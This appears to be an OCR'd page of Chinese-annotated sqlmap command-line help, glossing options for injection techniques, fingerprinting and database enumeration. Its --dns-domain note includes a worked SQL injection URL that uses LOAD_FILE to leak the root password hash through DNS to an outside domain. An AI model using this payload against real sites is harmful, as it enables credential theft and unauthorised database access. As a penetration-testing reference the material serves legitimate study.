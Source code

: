     --technique=TECH    SQL injection techniques to use (default "BEUSTQ")
        指定注入技术，默认使用全部(default "BEUSTQ")，那个含义如下：
        # B: Boolean-based blind SQL injection
        # E: Error-based SQL injection
        # U: UNION query SQL injection
        # S: Stacked queries SQL injection
        # T: Time-based blind SQL injection
        # Q: Inline SQL injection
    --time-sec=TIMESEC  Seconds to delay the DBMS response (default 5)
        使用基于时间的盲注时，设置的数据库延迟，默认是5
    --union-cols=UCOLS  Range of columns to test for UNION query SQL injection
        设置联合查询列的数目的范围
    --union-char=UCHAR  Character to use for bruteforcing number of columns
        设定union查询使用的字符，默认使用NULL
    --union-from=UFROM  Table to use in FROM part of UNION query SQL injection
        这个就不知道了，使用表单中的元素放到union注入中？
    --dns-domain=DNS..  Domain name used for DNS exfiltration attack
        利用dns进行注入加快盲注，可以看看这个
        示例url：http://localhost/inject.php?user=123' and if((SELECT LOAD_FILE(CONCAT(、\\\',(SELECT concat(user,'_',mid(password,2,41)) from user where ser='root' limit 1),'.md5crack.cn\\foobar'))),1,1)%23 
    --second-order=S..  Resulting page URL searched for second-order response
        这个就是我们常说的二次注入了，设置后帮你寻找二次注入的页面，不过没用过。。。

  Fingerprint:
    -f, --fingerprint   Perform an extensive DBMS version fingerprint
        这个应该是数据库指纹识别，加了可能识别更好
  Enumeration:
    These options can be used to enumerate the back-end database
    management system information, structure and data contained in the
    tables. Moreover you can run your own SQL statements

    -a, --all           Retrieve everything
        检索所有，这是拖库的节奏啊
    -b, --banner        Retrieve DBMS banner
        检索数据库的一些标志性的信息，就是指纹这样子吧
    --current-user      Retrieve DBMS current user
        检索当前连接数据库的用户
    --current-db        Retrieve DBMS current database
        检索当前连接的数据库
    --hostname          Retrieve DBMS server hostname
        检索服务器的主机名
    --is-dba            Detect if the DBMS current user is DBA
        检测是不是dba，就是root权限咯
    --users             Enumerate DBMS users
        枚举数据库用户
    --passwords         Enumerate DBMS users password hashes
        枚举数据库用户的哈希值
    --privileges        Enumerate DBMS users privileges
        枚举数据库用户的权限
    --roles             Enumerate DBMS users roles
        枚举数据库用户的角色
    --dbs               Enumerate DBMS databases
        枚举数据库有哪些
    --tables            Enumerate DBMS database tables
        枚举数据表名